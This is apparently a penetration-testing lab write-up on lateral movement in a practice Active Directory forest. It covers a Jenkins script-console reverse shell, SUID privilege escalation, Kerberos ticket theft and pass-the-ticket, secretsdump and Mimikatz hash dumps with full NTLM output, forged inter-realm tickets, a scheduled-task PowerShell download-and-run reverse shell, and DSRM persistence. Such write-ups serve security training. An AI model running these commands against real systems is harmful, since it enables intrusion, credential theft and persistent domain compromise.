

# Lateral Movement - 1

- [Lateral Movement - 1](#lateral-movement---1)
  - [SSH Tunnel](#ssh-tunnel)
  - [nmap scanning](#nmap-scanning)
  - [Jenkins](#jenkins)
  - [Local Enumeration](#local-enumeration)
  - [Domain Enumeration on Linux](#domain-enumeration-on-linux)
  - [Privilege Escalation to support](#privilege-escalation-to-support)
  - [Requests using support keytab](#requests-using-support-keytab)
  - [Setting Jenkin server as HTTP SOCKS Proxy](#setting-jenkin-server-as-http-socks-proxy)
  - [Pass-the-Ticket](#pass-the-ticket)
  - [Hash dumping on Child-DC](#hash-dumping-on-child-dc)
  - [Forge Inter-realm TGT](#forge-inter-realm-tgt)
  - [Password Dumping on Forest DC](#password-dumping-on-forest-dc)
- [External Trust Enumeration](#external-trust-enumeration)

---

## SSH Tunnel

Since we have the ssh credential of `iyer`, and we know there is a connection between the Production-Server and an internal address `10.1.3.1`, we can try to reach it via ssh tunnel.

First check out proxychain setting:

```
cat /etc/proxychains.conf | grep 9050
```

Then ssh to `192.168.3.8` using the follow command:

```
ssh -N -D 9050 iyer@192.168.8.3 
```

<br/>

## nmap scanning

First get a standalone version of nmap to the Production-Server.

(Source: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

<br/>

Host the binary on the attacker machine using python3:

```
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap
python3 -m http.server 80
```

<br/>

Then on Production-Server, download nmap and run the scan:

```
cd /tmp
wget http://192,168.100.11/nmap
chmod +x ./nmap
./nmap -n -Pn -T4 10.1.3.1 -p-
```

  

As shown, tcp/1234 is opened on 10.1.3.1.

<br/>

Try to access via proxychain:

  

<br/>

  

Jenkins, a CI/CD server, is found to be running.

<br/>

---

## Jenkins

Try using admin/admin to login and it is successful.

  

<br/>

Create a new job named **Admin Build**:

  

<br/>

  

<br/>

However, we have no permission to do so. Further checking the available users, there is a user called `autoadmin`:

  

<br/>

Checking `http://10.1.3.1:1234/credentials/`, a cleartext credential is found:

  

<br/>

> Credential:
> 
> autoadmin / Jenk!nsADMIN

<br/>

Login as autoadmin:

  

<br/>

Use the Jenkins script function on `http://10.1.3.1:1234/script` in attempt to get a reverse shell (launch a netcat listener on the attacker machine first):

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMC4xMS80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

<br/>

Note the original of the base64 encoded command:

```
bash -c 'bash -i >& /dev/tcp/192.168.100.11/443 0>&1'
```

  


<br/>

A reverse shell calls back:

  


<br/>

Spawn a PTY shell:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br/>

---

## Local Enumeration

Checking the `/home` directory, it looks like the `Automation-Server` is a domain joined computer.

  

<br/>

Inspecting `/home/autoadmin/Desktop/ssu_auto.sh`, a cleartext credential of `webadmin` is found, but it is not a valid password.

  

  


<br/>

Checking `/home/autoadmin/Downloads`, there are some interesting files and folders:

  

<br/>

---

## Domain Enumeration on Linux

To confirm it is a domain-joined computer, we can find `.keytab` file:

```
find / -name *.keytab -type f 2>/dev/null
```

  

<br/>

As shown, `/etc/krb5.keytab` exists and it is likely that this machine is domain-joined.

<br/>

Enumerate binaries with SUID bit set:

```
find / -perm -u=s -type f 2>/dev/null
```

  

  

<br/>

Try to use this `find` binary to enumerate other `keytab` file:

```
/var/lib/jenkins/find / -name *.keytab -type f 2>/dev/null
```

  

<br/>

As shown, there is a keytab file in the path `/home/support@operations.atomic.site/adm_domain.keytab`

<br/>

----

## Privilege Escalation to support

Since a `find` with SUID is found, we can use it to escalate our privilege.


```
/var/lib/jenkins/find . -exec /bin/bash -p \;
```
  

As shown, we become the support user in the domain.

<br/>

---

## Requests using support keytab

In the previous section, we identified `/home/support@operations.atomic.site/adm_domain.keytab`. Deduced from the name, it is possible to be the `Domain Admin` keytab file (Domain: operations.atomic.site).

<br/>

With the keytab file, we can request for TGT:

```
cd /home/support\@operations.atomic.site/
```


```
kinit adm_domain@OPERATIONS.ATOMIC.SITE -k -t adm_domain.keytab
```
* Note that the `@` part should be in CAPITAL LETTERS.

  


<br/>

Check the IP address of `operations.atomic.site` using `nslookup`:

```
nslookup OPERATIONS.ATOMIC.SITE
```
  
- 10.1.1.2

<br/>

To get the ComputerName of the DC, we can use check the LDAP record:

```
nslookup -type=any _ldap._tcp.dc._msdcs.operations.atomic.site
```

  

* As shown, the ComputerName is **OPS-CHILDDC**

<br/>

Then, request a TGS for CIFS:

```
kvno CIFS\/OPS-CHILDDC
klist
```

  

<br/>

To transfer the TGS to the attacker machine, first base64 encode the TGS:

```
base64 -w 0 < /tmp/krb5cc_123
```

  

<br/>

Then copy the output string and decode in the attacker machine:

```
echo -n "<copied string>" | base64 -d > krb5cc_123
```

  


<br/>

## Setting Jenkin server as HTTP SOCKS Proxy

First download `ncat` on Kali Linux:

```
wget https://github.com/ZephrFish/static-tools/raw/master/ncat
``` 

<br/>

Serve `ncat` on the current directory using python http.server:

```
python3 -m http.server 80
```

  

<br/>

Then on the Jenkin machine, download the served `ncat`:

```
wget http://192.168.100.11/ncat
```

  

<br/>

Use `ncat` to setup a http socks proxy:

```
chmod +x ncat
```

```
./ncat -l 4444 --proxy-type http &
```

  

<br/>

Then do a reverse port forwarding using the tunnel on the Jenkins machine:
```
ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
```
  

<br/>

Now check the listening ports on the attacker machine using `netstat`:

```
netstat -antup | grep 4445
```

  

<br/>

Then change the http socks port in  `/etc/proxychains.conf`:
  
 

<br/>

## Pass-the-Ticket

To use krb ticket, first install the following package:

```
apt install -y krb5-user
```

<br/>

Then use impacket to pass-the-ticket:

```
export KRB5CCNAME=./krb5cc_123
```

```
echo "10.1.1.2 OPS-CHILDDC" >> /etc/hosts
```

```
proxychains psexec.py -k -no-pass -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

<br/>

However, it is not successful. A possible reason is the time difference of the attacker machine and the target is greater than 15 minutes.

  

<br/>

This should be working after the target machine is rebooted:
  

<br/>

## Hash dumping on Child-DC

Use Impacket `secretdump.py` to dump hashes on Child-DC:

```
proxychains secretsdump.py -k -no-pass -just-dc-user adm_domain -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

<br/>

The NTLM hash of `adm_domain` is obtained `3d15cb1141d579823f8bb08f1f23e316`:
  

<br/>

Also dump all the hashes in the `ntds.dit` database since this is a DC:

```
proxychains secretsdump.py -k -no-pass -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

```                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:56df9bfe3024dd4eb25b412ead89fe08:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

OPERATIONS\OPS-CHILDDC$:plain_password_hex:387d08d86a6383f9163bcca0d01896d6501e47135dccdbd10296852d8acf70bd0e92b2796ae215395046deac5c12e58f2535177a536972fa6bd784350b975cba831e237829a9017ea9623fa8567be6159c95f46ae
a2465504b3019fa3992ddbec78e55d1adfc44819d83754b577e91762568f50becacb418320d97444d9da8447e23feec121a3b625a0521f508c69551cea74b91f6f3c7934364caf1167ace1c94e47391331475e682b67e2d5c706cdb01370da98ad7dbdb6778be413eece
0115966fb73c6986786afaa6795e7fbd35660e5964d81c65b0d0e040cc1546d6782e462c91cef06b18c6ce26fda97927176

OPERATIONS\OPS-CHILDDC$:aad3b435b51404eeaad3b435b51404ee:557a460cc1438fb35870b75383608196:::

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:8e2b8effbf6735b8fb5be206cb3dfead:::

operations.atomic.site\sysadmin:1110:aad3b435b51404eeaad3b435b51404ee:33da4461cc64d97d6766bea54d8824c7:::

operations.atomic.site\support:1114:aad3b435b51404eeaad3b435b51404ee:dd8ab1ad74d9faf1900eac349c8fb3e5:::

[+] Decrypting hash for user: CN=Homi Jehangir Bhabha,OU=Employee,DC=operations,DC=atomic,DC=site
operations.atomic.site\homi:1115:aad3b435b51404eeaad3b435b51404ee:4d32b988b70b389423886883f666ed66:::

[+] Decrypting hash for user: CN=Iyer Murty,OU=Employee,DC=operations,DC=atomic,DC=site
operations.atomic.site\iyer:1116:aad3b435b51404eeaad3b435b51404ee:493483461831ba82fe193fe01653da6a:::

[+] Decrypting hash for user: CN=Srinivasa Krishnan,OU=Employee,DC=operations,DC=atomic,DC=site
operations.atomic.site\sri:1117:aad3b435b51404eeaad3b435b51404ee:50e3b28275dc32db9f2e82b2e25968e2:::

[+] Decrypting hash for user: CN=Service-DB,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\srv-db:1118:aad3b435b51404eeaad3b435b51404ee:c60cc979b81b15f2e23848eac75bef16:::

[+] Decrypting hash for user: CN=service-auto,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\srv-auto:1119:aad3b435b51404eeaad3b435b51404ee:ea06afda9cb34106ddaf747108eb1af1:::

[+]] Decrypting hash for user: CN=Admin Domain,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\adm_domain:1121:aad3b435b51404eeaad3b435b51404ee:3d15cb1141d579823f8bb08f1f23e316:::

[+] Decrypting hash for user: CN=IIS-admin,OU=Service Accounts,DC=operations,DC=atomic,DC=site
operations.atomic.site\iisadmin:1126:aad3b435b51404eeaad3b435b51404ee:7e44e374b6a9d37380d77970d8e2e2dc:::

[+] Decrypting hash for user: CN=OPS-CHILDDC,OU=Domain Controllers,DC=operations,DC=atomic,DC=site
OPS-CHILDDC$:1000:aad3b435b51404eeaad3b435b51404ee:557a460cc1438fb35870b75383608196:::

[+] Decrypting hash for user: CN=DB-SERVER,CN=Computers,DC=operations,DC=atomic,DC=site
DB-SERVER$:1111:aad3b435b51404eeaad3b435b51404ee:8ebe356223ef0b7b8831ba3349e12513:::

[+] Decrypting hash for user: CN=REPO-SERVER,CN=Computers,DC=operations,DC=atomic,DC=site
OPERATIONS.ATOMIC.SITE\REPO-SERVER$:1112:aad3b435b51404eeaad3b435b51404ee:f3cbb96681af765b402de7b8624f8f5c:::

[+] Decrypting hash for user: CN=AUTOMATION-SERV,CN=Computers,DC=operations,DC=atomic,DC=site
OPERATIONS.ATOMIC.SITE\AUTOMATION-SERV$:1113:aad3b435b51404eeaad3b435b51404ee:4930f9a7ea2e28c8d90d1c6c94725866:::

[+] Decrypting hash for user: CN=SCIENTIST-MACHI,CN=Computers,DC=operations,DC=atomic,DC=site
SCIENTIST-MACHI$:3101:aad3b435b51404eeaad3b435b51404ee:35d811fb8407f03f017e770729475a2c:::

[+] Decrypting hash for user: CN=ATOMIC$,CN=Users,DC=operations,DC=atomic,DC=site
ATOMIC$:1103:aad3b435b51404eeaad3b435b51404ee:6d76fb226a7109795a970e9a8f466833:::

```
<br/>

To obtain the Domain SID, we can use `wmic` in the PSExec shell:

```
wmic group where name="Domain Admins" get name,sid,domain
```

  


Operations.atomic.site:<br/>
`S-1-5-21-3757735274-1965336150-1982876978`
<br/>
Atomic.site:<br/>
`S-1-5-21-95921459-2896253700-3873779052`
<br/>

<br/>

## Forge Inter-realm TGT

In order to get into the Parent DC, with the NTLM of `krbtgt` account, we can forge inter-realm TGT using Mimikatz.
<br/>

In the attacker machine, serve Mimikatz.exe:

```
cd /usr/share/windows-resources/mimikatz/x64
python3 -m http.server 80
```

<br/>

Then in the PSExec shell, download mimikatz:

```
cd C:\Users\Public
certutil -urlcache -f http://192.168.100.11/mimikatz.exe .\mimikatz.exe
```

  

<br/>

Then run `mimikatz.exe` to forge a inter-realm TGT:

```
kerberos::golden /user:adm_domain /domain:operations.atomic.site /sid:S-1-5-21-3757735274-1965336150-1982876978 /sids:S-1-5-21-95921459-2896253700-3873779052-512 /krbtgt:8e2b8effbf6735b8fb5be206cb3dfead /ticket:C:\Users\Public\forge.kirbi
```

  

<br/>

Check the forest DC hostname:

```
nslookup -type=any _ldap._tcp.dc._msdcs.atomic.site
```

  

* IP:  `10.1.1.1`
* Hostname: `atomic-dc.atomic.site`

<br/>

Use Mimiaktz to perform PTT:

```
kerberos::ptt C:\Users\Public\forge.kirbi
```

  

<br/>

Try to list the forest DC's root directory:

```
dir \\atomic-dc.atomic.site\c$
```

  

As shown, we now have the forest dc access.

<br/>

To get a reverse shell, modify the `Invoke-PowerShellTcp.ps1` from Nishang by adding the following in the last line:

```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.100.11 -Port 443
```

<br/>

Then on the local machine, prepare a nc listener:

```
nc -nlvp 443
```

<br/>

Also serve the `Invoke-PowerShellTcp.ps1` script:

```
python3 -m http.server 80
```

<br/>

On the PSExec shell, create a remote schedule task:

```
schtasks /create /S atomic-dc.atomic.site /SC Weekly /RU "Administrator" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object System.Net.WebClient).DownloadString(''http://192.168.100.11/Invoke-PowerShellTcp.ps1''')'"
```

<br/>

Run the scheduled task:

```
schtasks /Run /S atomic-dc.atomic.site /TN "STCheck"
```

  

  

<br/>

As shown, we have a reverse shell on the Forest DC `ATOMIC-DC`.

<br/>

## Password Dumping on Forest DC

First download mimikatz:

```
cd C:\Users\Public
wget http://192.168.100.11/Invoke-Mimikatz.ps1 -OutFile .\Invoke-Mimikatz.ps1
```

<br/>

Then dump password using Mimikatz powershell script:

```
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -DumpCreds
```

  

As shown, we obtain the Enterprise Admin NTLM:<br/>
`c49927a1eb5a335dfb681db95d3a45a2`

<br/>

```
ATOMIC\Administrator:
SID:   S-1-5-21-95921459-2896253700-3873779052-500
NTLM:  c49927a1eb5a335dfb681db95d3a45a2

ATOMIC\ATOMIC-DC$
SID:   S-1-5-90-0-1
NTLM:  f2a2a8b45cfc4d08481ab3c6e1b531e0
```

<br/>

Also dump the DSRM key:

```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```

  

* DSRM: `56df9bfe3024dd4eb25b412ead89fe08`

<br/>

To persist, enable DSRM usage over network:

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonbehavior" -Value 2 -PropertyType DWORD
```

  

<br/>

Dump all hashes:

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
Domain : ATOMIC / S-1-5-21-95921459-2896253700-3873779052                                                                                                                                                           
                                                                                                                                                                                                                    
RID  : 000001f4 (500)                                                                                                                                                                                               
User : Administrator                                                                                                                                                                                                
LM   :                                                                                                                                                                                                              
NTLM : c49927a1eb5a335dfb681db95d3a45a2                                                                                                                                                                             

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000001f6 (502)
User : krbtgt
LM   : 
NTLM : 5d14653ad207e053f2dbb9e3833b08bf

RID  : 000001f7 (503)
User : DefaultAccount
LM   : 
NTLM : 

RID  : 00000457 (1111)
User : atasrv
LM   : 
NTLM : 7f9b42b69b821e3526263ab93bb407bf

RID  : 00000835 (2101)
User : fsp-user
LM   : 
NTLM : 66efe4960b2a96982f06f7af2966fa1b

RID  : 000003e8 (1000)
User : ATOMIC-DC$
LM   : 
NTLM : f2a2a8b45cfc4d08481ab3c6e1b531e0

RID  : 00000455 (1109)
User : OPERATIONS$
LM   : 
NTLM : 38e5f1f81e90a4ae014f83429a36a082

RID  : 0000045a (1114)
User : NUCLEAR$
LM   : 
NTLM : 285520f366660265a99ec7bc9603d6b2
```

<br/>

As shown in the result, there is an unknown machine account "nuclear". Try to use nslookup to resolve:

```
nslookup nuclear.site
```

  

<br/>

In so, `285520f366660265a99ec7bc9603d6b2` is likely the trust key.

<br/>

# External Trust Enumeration

